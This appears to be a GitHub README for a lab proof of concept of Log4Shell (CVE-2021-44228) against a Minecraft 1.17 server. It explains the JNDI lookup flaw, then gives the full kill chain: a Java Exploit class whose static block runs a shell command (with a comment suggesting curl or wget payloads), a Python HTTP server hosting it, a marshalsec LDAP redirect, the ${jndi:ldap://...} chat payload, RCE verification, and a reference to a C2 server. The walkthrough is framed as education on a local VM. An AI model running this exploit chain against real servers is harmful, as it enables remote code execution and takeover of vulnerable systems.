

# Log4Shell (CVE-2021-44228) PoC — Minecraft 1.17 on Ubuntu Linux

> **For authorized security research and educational purposes only. Run entirely on a local VM.**

---

## Overview

Log4Shell abuses Log4j's JNDI lookup feature. When Minecraft logs a chat message containing `${jndi:ldap://...}`, Log4j 2.14.1 processes it, reaches out to your LDAP server (marshalsec), which redirects it to your HTTP server hosting a malicious Java class. That class executes on the Minecraft server JVM.




**Attack chain:**
```
Minecraft chat input → Log4j 2.14.1 JNDI lookup → marshalsec LDAP server
  → Python HTTP server → Exploit.class fetched → RCE on server
```
## A Deeper Dive

CVE-2021-44228, seen at https://nvd.nist.gov/vuln/detail/CVE-2021-44228 is a **10.0 Critical** vulnerability discovered in the widely-used **Log4J** Java logging library. This library was used across numerous high-profile Java projects, notably in this case, Minecraft versions 1.7 to 1.18 (https://www.minecraft.net/en-us/article/important-message--security-vulnerability-java-edition). 8 years!

This vulnerability was uncovered in 2021, and developers scrambled to quickly secure their applications. There are two inherent reasons that the vulnerability existed.

The first is a Log4J feature called **Lookups**. This feature allows logs to be enriched by enclosing platform-specific info in the logs, like `${java.os}` to the OS version.

This combined with another 'feature', the ability to **query remote JNDI (Java Naming and Directory) servers** to fetch unknown classes. Input sanitization was not used for these logs, and a payload like:
```
${jndi:ldap://127.0.0.1:1389/Exploit}
```

would be interpreted by Log4J and reach out to the remote server, grab the implant class, and execute it on the host machine.

In Minecraft's case, custom Java edition servers run by players were highly vulnerable, and could be triggered by simply entering the payload in a chat message.

In this repository, we walk through the necessary steps to execute the entire kill chain, from setup to implant and C2, and show just how devastating the Log4Shell exploit was and still continues to be.

---

## Prerequisites

Install the following on your Ubuntu VM before starting:
Ubuntu 25.10 VM - https://ubuntu.com/download/desktop
```bash
sudo apt update
sudo apt install -y openjdk-17-jdk maven git wget nano
```

Confirm Java version:
```bash
java -version
# should show openjdk 17
```

---

## Directory Structure

Everything lives under `~/log4j-lab/`:

```
~/log4j-lab/
├── server/          # Minecraft server
├── payload/         # Exploit.java and Exploit.class
└── marshalsec/      # JNDI redirect server
```

```bash
mkdir -p ~/log4j-lab/{server,payload}
```

---

## Step 1 — Minecraft Server Setup (1.17)

Download Minecraft 1.17 server jar from https://xyrios.com/minecraft/tools/mc-versions/1.17 and put it into ~/log4j-lab/server/. Do the same with the client jar and put it into ~/log4j-lab/client

```
cd ~/log4j-lab/server

```

Accept the EULA and do the initial setup:

```
# first run generates eula.txt
/usr/lib/jvm/java-17-openjdk-amd64/bin/java -Xmx1024M -Xms1024M -jar server.jar nogui

# accept the EULA -> change eula=false to eula=true
nano eula.txt
```
Run the command again if needed.


Start the server with `trustURLCodebase` enabled (not sure if necessary - will test in future:

```
/usr/lib/jvm/java-17-openjdk-amd64/bin/java -Xmx1024M -Xms1024M \
  -Dcom.sun.jndi.ldap.object.trustURLCodebase=true \
  -Dcom.sun.jndi.rmi.object.trustURLCodebase=true \
  -jar server.jar nogui
```

Leave this terminal open.

---

## Step 2 — Minecraft Client (Prism Launcher)

Install Prism Launcher via AppImage to avoid flatpak/FUSE issues on the VM:

```
sudo wget https://prism-launcher-for-debian.github.io/repo/prismlauncher.gpg -O /usr/share/keyrings/prismlauncher-archive-keyring.gpg \
  && echo "deb [signed-by=/usr/share/keyrings/prismlauncher-archive-keyring.gpg] https://prism-launcher-for-debian.github.io/repo $(. /etc/os-release; echo "${UBUNTU_CODENAME:-${DEBIAN_CODENAME:-${VERSION_CODENAME}}}") main" | sudo tee /etc/apt/sources.list.d/prismlauncher.list \
  && sudo apt update \
  && sudo apt install prismlauncher
```
After downloading, run 
```
prismlauncher
```
Click "New Instance", then click Edit on the right side of the setting menu for the instance. Click "Add to Minecraft.jar" on the right side, select Browse, and select your client.jar file from the folder. Then click on that newly created jar in the list, and click Launch in the bottom right. You will have had to login to your Minecraft account on the launcher to play the client. Select Multiplayer -> Direct Connection -> 127.0.0.1:25565 to connect to your world. 

In Prism Launcher:

1. Click **Add Instance**
2. Select Minecraft version **1.17**
Port number can be found in server folder under server.properties. Default is 25565
3. Launch the instance and connect to `localhost:port` or `127.0.0.1:port`


---

## Step 3 — Create the Exploit Payload

Open a new terminal:

```
cd ~/log4j-lab/payload
nano Exploit.java
```

Paste the following:

```
public class Exploit {
    static {
        try {
            Runtime.getRuntime().exec("touch /tmp/pwned"); # replace with your bash payload, could be curl, wget, or straight exploit code. 
        } catch (Exception e) {}
    }
}
```

Compile it targeting Java 17 bytecode:

```
/usr/lib/jvm/java-17-openjdk-amd64/bin/javac Exploit.java
```
Confirm both files exist:

```
ls
# Exploit.java  Exploit.class
```

Start the HTTP server to serve the payload — keep this terminal open:

```
python3 -m http.server 8888
```

---

## Step 4 — Set Up Marshalsec (JNDI LDAP Server)

Open a new terminal:

```
cd ~/log4j-lab
git clone https://github.com/mbechler/marshalsec
cd marshalsec
mvn clean package -DskipTests
```

Once the build finishes, start the LDAP redirect server per the marshalsec README:

```
cd ~/log4j-lab/marshalsec
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer \
  "http://127.0.0.1:8888/#Exploit"
```

Expected output:
```
Listening on 0.0.0.0:1389
```

Leave this terminal open.

---

## Step 5 — Trigger the Exploit

At this point you should have 4 terminals running, as well as the Minecraft client on Prism:

| Terminal | Process |
|---|---|
| 1 | Minecraft server (`server.jar`) |
| 2 | Python HTTP server (`python3 -m http.server 8888`) |
| 3 | Marshalsec LDAP server (port 1389) |
| 4 | Free — use this to verify |

In the Minecraft client, press **T** to open chat and send:

```
${jndi:ldap://127.0.0.1:1389/Exploit}
```

---

## Step 6 — Verify RCE

Immediately watch your terminals:

**Marshalsec terminal** should show:
```
Send LDAP reference result for Exploit redirecting to http://127.0.0.1:8888/Exploit.class
```

**Python HTTP server terminal** should show:
```
127.0.0.1 - - [date] "GET /Exploit.class HTTP/1.1" 200 -
```

Then confirm the payload executed in terminal 4:

```
ls /tmp/pwned
```

If the file exists, you have confirmed RCE.

---

## Quickstart
Assuming you have already gone through the setup and build instructions above, you can use the `quickstart.sh` bash script to spin up all server instances in a tmux session. First ensure you have tmux installed:
```bash
sudo apt install tmux -y
```
Additionally make sure your Minecraft server, HTTP server, and LDAP servers are located at `~/log4jlab/`. Then run the script:
```bash
./quickstart.sh         # use this to open 5 separate window tabs
./quickstartsplit.sh    # use this to open all terminals split in one window
```
You will now have a tmux session with 5 windows:
1. Prism Launcher open, launch your Minecraft client from here
1. Minecraft server running on 127.0.0.1:25565
1. HTTP Server running on 127.0.0.1:8888
1. LDAP redirect server running on 127.0.0.1:1389
1. C2 Docker server running on 127.0.0.1:5000

To quickly preview each pane use `ctrl+b w`. To switch windows use `ctrl+b [pane-number]`. If using split mode, use `ctrl+b o` to cycle through each pane or `ctrl+b [arrow-keys]` for directional switching.

**Note:** Depending on the malicious class name you're using, you may need to edit the Marshalsec startup command in either script to use 127.0.0.1:1389/#YourClassName. The default class name is `Implant`.

You may also clone this repository to directly download all relevant build files, but be forewarned that it may not compile or run correctly on your machine if you are using a different OS / VM or do not have the relevant Java version and all other necessary packages installed. 

**AI Disclaimer:** This README.md has been formatted and outlined with the help of AI (Claude by Anthropic). Other relevant files, such as the C2 server, have also been created using the assistance of AI. 
## Troubleshooting

| Symptom | Cause | Fix |
|---|---|---|
| Marshalsec fires but Python gets no GET request | JVM not following LDAP redirect | Confirm `trustURLCodebase` flags are set on server launch |
| `UnsupportedClassVersionError` | Wrong JDK for server jar | Use JDK 17 for the server, compile payload with direct java17 installation |
| Flatpak fails for Prism | FUSE not supported in VM | Use the AppImage install method |
| `/tmp/pwned` not created | Class loaded but not executed | Check that `Exploit.class` compiled correctly and is in the payload directory |

---
